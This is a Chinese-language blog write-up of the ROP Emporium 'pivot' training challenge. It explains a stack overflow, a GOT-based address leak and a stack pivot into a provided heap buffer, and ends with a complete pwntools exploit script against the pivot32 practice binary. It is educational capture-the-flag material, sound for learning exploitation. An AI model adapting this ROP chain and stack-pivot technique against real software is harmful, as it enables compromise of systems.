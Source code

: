 ```yaml
---
title: ROP Emporium の pivot
date: 2020-06-11 15:14:00
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练6：pivot的解析。

<!-- more -->

## pivot32

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/pivot/pivot1.png)

&emsp;&emsp;发现可能存在内存地址泄露，加上题目给了libc.so文件，猜测可能需要用到ret2libc和延迟绑定技术,详细内容可了解[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)。

&emsp;&emsp;checksec：

![](/img/pivot/pivot2.png)

### Step 2

&emsp;&emsp;pwnme函数中fgets函数存在溢出漏洞，offset为0x28：

![](/img/pivot/pivot3.png)

&emsp;&emsp;程序运行时提示我们call ret2win() from libpivot.so，看下这个函数是什么内容：

![](/img/pivot/pivot4.png)

&emsp;&emsp;那么直接调用这个函数就行了。但是这个函数在libc.so中，需要通过ret2libc实现函数的调用。首先要选择一个函数同时在pivot程序和libc.so中，泄露其真实地址后通过计算得到libc.so加载的基址，加上ret2win函数在libc.so中的offset，直接定位ret2win函数在内存中的真实地址。

&emsp;&emsp;通过比对发现，我们只能选择foothold_function函数来获取libc.so的基址：

![](/img/pivot/pivot5.png)

![](/img/pivot/pivot6.png)

&emsp;&emsp;这时我们会发现pwnme函数中fgets只有0x3a Bytes缓冲区的长度，并不足以存放我们的shellcode，所以需要另找一个位置存放shellcode。

![](/img/pivot/pivot7.png)

&emsp;&emsp;好在程序给了我们一块0x100的堆空间，且具体的内存地址也告诉我们，但是我们需要考虑如何把shellcode写到给的地址上去。

![](/img/pivot/pivot8.png)

&emsp;&emsp;通过上面的几个函数就可以实现将shellcode写到指定的内存地址。

&emsp;&emsp;到此，思路就比较清楚了：第一步先将shellcode写到指定内存地址，第二步利用溢出漏洞使程序跳转到shellcode执行。

&emsp;&emsp;第一步中通过sub_80488c4函数写入，通过sub_80488c0函数控制eax寄存器。为了将栈转移到我们需要的地址，需要通过sub_80488c2控制esp寄存器。在找到libc.so的加载基址后，需要通过sub_80488c7函数将基址加上offset找到ret2win函数在内存中的真实地址。所以我们还需要找到控制ebx寄存器的指令：

![](/img/pivot/pivot9.png)

&emsp;&emsp;第二步中我们还需要一条指令在覆盖fgets函数返回地址后使得程序能够跳转到我们设定的内存地址执行shellcode，由于我们通过sub_80488c4函数将地址写到了eax寄存器中，所以我们需要控制程序跳转的eax寄存器指向的地址：

![](/img/pivot/pivot10.png)

&emsp;&emsp;这样一切准备工作就完成了。

### Step 3

&emsp;&emsp;下面就是EXP的编写：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = process('./pivot32')
* elf = ELF('./pivot32')
* 
* libc = ELF('./libpivot32.so')
* 
* foothold_function_got = elf.got['foothold_function']
* foothold_function_plt = elf.plt['foothold_function']
* foothold_function_libc = libc.symbols['foothold_function']
* ret2win_libc = libc.symbols['ret2win']
* 
* sh.recvuntil('pivot: ')
* shellcode_addr = int(sh.recv(10), 16)
* 
* pop_eax_addr = 0x80488c0
* xchg_addr = 0x080488c2
* mov_addr = 0x080488c4
* add_addr = 0x080488c7
* 
* pop_ebx_addr = 0x08048571
* jmp_addr = 0x08048a5f
* 
* payload1 = p32(foothold_function_plt) # 调用foothold_function函数，调用时会将foothold_function函数的实际地址写入到GOT表中
* payload1 += p32(pop_eax_addr) + p32(foothold_function_got)# 将foothold_function函数的GOT地址写入eax寄存器
* payload1 += p32(mov_addr) # 将foothold_function函数的GOT地址指向的地址放入eax寄存器，即foothold_function函数在内存中的真实地址
* payload1 += p32(pop_ebx_addr) + p32(ret2win_libc - foothold_function_libc) # 将ret2win函数与foothold_function函数在libc.so文件中的相对偏移放入ebx
* payload1 += p32(add_addr) # foothold_function函数真实地址加上ret2win相对于foothold_function函数的offset即得ret2win函数在内存中的实际地址
* payload1 += p32(jmp_addr) # 使程序跳转到eax中的地址，即泄露的堆空间的入口位置
* 
* sh.recvuntil('>')
* sh.sendline(payload1)
* 
* payload2 = 'a' * (0x28 + 0x4) # padding
* payload2 += p32(pop_eax_addr) + p32(shellcode_addr) # 堆空间的地址放入eax寄存器
* payload2 += p32(xchg_addr) # 交换eax和esp的值，也就是说程序分配的对空间就被当成栈，交换eax和esp的值，也就是说程序分配的堆空间就被当成栈，ret就会返回到栈顶去执行我们精心设计好的shellcode
* 
* sh.recvuntil('smash')
* sh.sendline(payload2)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;* 脚本运行结果图：

![](/img/pivot/pivot11.png)

## pivot

&emsp;&emsp;64位程序和32位思路一模一样，EXP也基本相同，有兴趣的可以自行尝试。
